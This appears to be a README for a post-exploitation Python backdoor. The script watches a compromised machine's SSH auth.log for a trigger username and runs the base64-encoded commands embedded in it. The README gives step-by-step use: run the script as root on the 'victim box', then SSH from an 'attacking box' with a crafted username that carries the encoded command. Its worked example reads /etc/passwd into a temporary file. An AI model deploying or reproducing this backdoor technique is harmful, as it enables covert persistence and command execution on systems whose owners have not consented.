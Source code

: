 
#ssh-authlog-backdoor

A post exploit python script that watches auth.log for a keyword then executes base64 encoded commands.  


## How to use

1. Execute the script as root on the victim box.

2. Encode a command in base64 by using an online service or how ever you can get base64. https://www.base64encode.org/
   Example
   ``` cat /etc/passwd > /tmp/test ```
   is
   ```Y2F0IC9ldGMvcGFzc3dkID4gL3RtcC90ZXN0```
3. From an attacking box initiate an ssh connection as the user ```shadow---``` + ```base64 encoded command```
   Full example ```ssh shadow---Y2F0IC9ldGMvcGFzc3dkID4gL3RtcC90ZXN0@VICTIM.IP``` 
   
 
